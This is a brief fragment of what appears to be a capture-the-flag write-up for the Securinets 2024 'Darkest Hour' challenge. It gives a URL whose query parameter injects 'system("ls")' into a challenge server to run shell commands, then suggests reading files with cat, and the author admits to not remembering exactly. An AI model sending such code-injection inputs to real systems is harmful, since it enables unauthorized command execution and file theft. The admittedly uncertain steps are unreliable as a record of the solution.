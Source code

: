 ![image](https://github.com/petriQore/Securinets-2024-Darkest-Hour-CTF/assets/123587287/6c58b261-eb5d-480d-a617-4e4b9feeb44d)

http://164.92.81.228:8004/?wassup=echo system("ls")

then we can cat whatever file appears

or something like that i forgot
